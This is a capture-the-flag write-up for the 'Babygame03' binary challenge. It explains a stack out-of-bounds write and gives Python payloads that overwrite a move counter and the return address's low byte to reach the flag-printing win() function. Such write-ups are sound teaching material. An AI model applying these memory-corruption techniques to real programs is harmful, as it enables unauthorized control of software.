

# Babygame03



This challenge was a continuation of the `babygame02` challenge from last year. With some interesting additions. It was worth `400pts`, and I would rate it a `medium` level challenge compared to the other pwn challenges this year. 

The idea behind this game is that you are able to move around a map, and to finish a level you get to the bottom right of the map.

When we inspect the game with GDB, we see that the entire map is held in memory on the stack. There are also no bounds checks on the top of the map, so you can stomp on memory on the stack.

When we analyze the binary with our favorite disassembler, we can see that there are some fun extra features...
- You can use `l` to change your characters `character`. By doing this you change the representation of the player on the stack memory
- When you move away from a spot, a `.`(`0x2e`) is written to that memory location.
- You can use `p` to have the game "auto solve" the level by moving the player to the end

This version of the game has some additional features that the older challenge did not. 
- You have limited moves.
- There are obstacles that instantly end the game if you run into them.

When we look at the `main` function, I've gone ahead and renamed some variables, defined some structs etc so that it's a bit more readable.


Note, I may have `x` and `y` switched, but you get the idea...

- We see that the instance of the player is kept on the stack, and it holds the number of `moves`, `x` and `y`.
- We win if our player `x` is `0x1d` and `y` is `0x59` and the `level` is not `4`.
- if we manage to get to level `5` (which should be impossible) and our `wins` are equal to `4`, then we break and can call the `win` function.

Not shown here is the `win()` function. It will only print out the flag if the argument passed is equal to `5`

```c
int32_t win(int32_t* arg1)
{
    FILE* fp = fopen("flag.txt", &data_804a091);
    if (fp == 0)
    {
        puts("Please create 'flag.txt' in this…");
        fflush(*(uint32_t*)stdout);
        exit(0);
        /* no return */
    }
    void var_4c;
    fgets(&var_4c, 0x3c, fp);
    int32_t eax_2 = *(uint32_t*)arg1;
    if (eax_2 == 5)
    {
        printf(&var_4c);
        eax_2 = fflush(*(uint32_t*)stdout);
    }
    return eax_2;
}
```

This means we can't just jump to the `win()` function.

The first thing we need to do is get more `moves` we do this by navigating to the stack location storing the moves. We stomp on that memory. And then use the auto-solve to win the level.

```python
for i in range(0,3):
    payload = 'a'*4
    payload += 'w'*3
    payload += 'a'*4
    payload += 'w'*1     # we write 0x2e to the highest byte of lives
    payload += 's'*6
    payload += 'p'       # auto solve the level

    io.sendline(payload)
    data = io.recv(1000000, timeout=1)
```

We do this until we get to level `4`. That one can't be solved by conventional ways.

Now we still modify our moves, and then we change our `character` to `0x70`, and overwrite the lowest byte of the return address on the stack. By setting this to `0x70`, we jump to the code in main that gives us the win on the level. We bypass the check for the final location and `level != 4`.

```python
payload = 'a'*4
payload += 'w'*3
payload += 'a'*4
payload += 'w'*1     #we write 0x2e to the highest byte of lives
payload += 's'*1

payload += 'a'*46
payload += 'a'
payload += 'l\x70'
payload += 'w'*1     #jump to code that skips the level 4 check
io.sendline(payload)
```

Now we are on level 5, but we can't hit the break condition. So we do the same tricks. We give ourselves more moves/lives, then change our character to `\xfe` and adjust our offsets to again overwrite the lowest byte of the return pointer on the stack.

```python
payload = 'a'*4
payload += 'w'*3
payload += 'a'*4
payload += 'w'*1     #we write 0x2e to the highest byte of lives
payload += 's'*1

payload += 'a'*46
payload += 'a'
payload += 'a'*0x10 # we did the other jump, so now we have to adjust
payload += 'l\xfe'  
payload += 'w'
io.sendline(payload)
```

This time we jump to the location in main that sets up the correct calling convention to `win()` with our level `5`, and we get the flag printed out.

All in all this was a fun little challenge. You have to understand what is going on in memory, how to get to the offsets you need to modify, and need to know how to change the execution control to have the program do what you want it to.
